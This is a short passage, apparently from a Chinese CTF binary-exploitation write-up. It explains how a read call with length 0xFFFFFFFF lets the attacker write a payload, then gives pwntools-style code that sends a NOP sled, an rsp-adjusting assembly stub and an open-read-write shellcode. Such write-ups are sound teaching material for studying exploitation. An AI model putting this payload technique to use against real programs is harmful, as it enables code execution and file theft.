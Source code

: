 [![](assets/1708654729-bd9fe3708bfc8c1956a175c5e2b0e858.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104523-42b5ce4c-d063-1.png)  
所以 edx=0xFFFFFFFF  
read(0,0x2333000,0xFFFFFFFF)  
然后把 rsp 设置成有效的地址，然后直接写 orw\_shellcode

```plain
pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)
```

改 rsp 储存的地址，方便压栈，然后继续执行
